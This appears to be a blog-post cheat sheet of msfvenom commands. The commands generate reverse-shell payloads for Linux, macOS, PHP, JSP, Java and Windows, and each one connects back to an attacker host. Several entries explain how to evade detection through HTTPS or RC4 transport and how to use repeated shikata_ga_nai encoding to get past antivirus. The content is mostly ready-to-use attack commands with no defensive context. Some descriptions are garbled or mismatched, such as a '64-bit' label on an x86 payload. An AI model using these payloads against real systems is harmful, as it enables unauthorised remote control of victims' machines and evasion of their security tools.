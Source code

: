 This generates a reverse TCP shell for 64-bit Linux systems. Once deployed on a target, it connects back to the attacker’s system, offering command execution capabilities.

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f elf > shell.elf
```

A 32-bit variant of the Linux Meterpreter reverse shell, targeting older or lightweight Linux distributions.

Creates a reverse TCP shell for macOS using the `macho` format and Produces a Mach-O file to establish a reverse shell on macOS.

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f macho > shell.macho
```

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw > shell.php
```

A web-based reverse shell for PHP environments. It can be uploaded to a vulnerable web server to gain control of the target.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw > shell.jsp
```

A reverse shell crafted for Java environments, typically targeting web applications running on JSP (Java Server Pages) servers.

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=4444 W > text.jar
```

![](https://substackcdn.com/image/fetch/w_1456,c_limit,f_auto,q_auto:good,fl_progressive:steep/https%3A%2F%2Fsubstack-post-media.s3.amazonaws.com%2Fpublic%2Fimages%2Ff0aea647-0496-422f-b106-5b15769976ae_873x291.png)

```
msfvenom -p windows/meterpreter/reverse_https LHOST=<attacker_ip> LPORT=<port> -f exe > shell.exe
```

Using HTTPS for communication makes it harder for network security solutions to detect the payload. Adding encoding allows bypassing antivirus solutions by obfuscating the payload.

```
msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=<attacker_ip> LPORT=<port> RC4PASSWORD=<password> -f exe > shell.exe
```

RC4 encryption provides secure communication between the payload and the handler, making it more resilient to security detection mechanisms.

To avoid detection by antivirus software, payloads can be encoded.

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 3 -f exe > encoded_shell.exe
```

The payload is encoded using the `shikata_ga_nai` encoder, iterating the encoding process three times, making it harder for antivirus solutions to detect.

Inserts a NOP sled before the payload for reliable execution and A 16-byte NOP sled is added to ensure smooth payload execution.
